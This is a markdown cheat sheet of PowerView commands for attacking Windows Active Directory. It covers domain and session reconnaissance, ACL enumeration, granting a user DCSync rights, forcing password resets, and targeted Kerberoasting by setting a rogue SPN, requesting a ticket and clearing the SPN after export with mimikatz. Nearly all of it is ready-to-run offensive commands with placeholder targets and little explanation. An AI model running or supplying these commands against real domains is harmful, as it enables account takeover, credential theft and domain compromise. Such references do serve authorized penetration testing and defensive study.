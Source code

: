 ### Source 
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  

### Get domain controller for current domain
```
Get-NetDomainController
```

### Get remote logged in user
```
Get-NetSession -ComputerName <fqdnRhost>
```

### Get object descriptions
```
Get-NetUser | select-object samaccountname,description | fl | Out-File <file>.txt
```

### Get specific user description
```
Get-NetUser -Username <user> 
```

### Get list of all domain trusts
```
Get-NetDomainTrust
```

### Get details about the current forest
```
Get-NetForest
```

### Find all machines where user has local admin rights
```
Find-LocalAdminAccess –Verbose -Domain <domain> -Computername <rhost>
```

### Show all security identifiers (SID) that can create new GPOs
```
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=<domainComponent>,DC=<domainComponent>" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

### Get name of SID
```
ConvertFrom-SID <securityIdentifier>
```

### Show all principals that can write to GP-Link attributes
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

### Get computeraccounts in specific OU
```
Get-DomainComputer | ? { $_.DistinguishedName -match "<distinguishedName>" -or $_.DistinguishedName -match "OU=<ou>" } | select DnsHostName
```

### Add full permissions over a group to specific user (right = All or ResetPassword or WriteMembers)
```
Add-ObjectAcl -TargetADSprefix '<distinguishedName>' -PrincipalSamAccountName <user> -Rights <right> -Verbose
```

### Add DCSync right to a specific user
```
Add-ObjectAcl -TargetDistinguishedName 'distinguishedName' -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```

### Set a new password for specific user
```
Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString "<password>" -AsPlainText -Force) -Verbose
```

### Check if user has SPN set (targeted kerberoast)
```
Get-DomainUser -Identity <user> | select serviceprincipalname
Get-DomainComputer -Identity <user> | select serviceprincipalname
```

### Set a new SPN
```
Set-DomainObject -Identity <userOrComputer> -Set @{serviceprincipalname='foo/bar'}
```

### Request ticket from SPN
```
Request-SPNTicket -SPN 'foo/bar'
```

### After export of tickets using mimikatz remove SPN
```
Set-DomainObject -Credential $Cred -Identity <userOrComputer> -Clear serviceprincipalname
```

### List accessible shares (without -ComputerName check all domain joined hosts)
```
Find-DomainShare -CheckShareAccess -ComputerName <rhost>
```

### Search for accounts with DS-Replication-Get-Changes or DS-Replication-Get-Changes-In-Filtered-Set
```
Get-ObjectAcl -DistinguishedName "dc=<domainComponent>,dc=<domainComponent> -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```

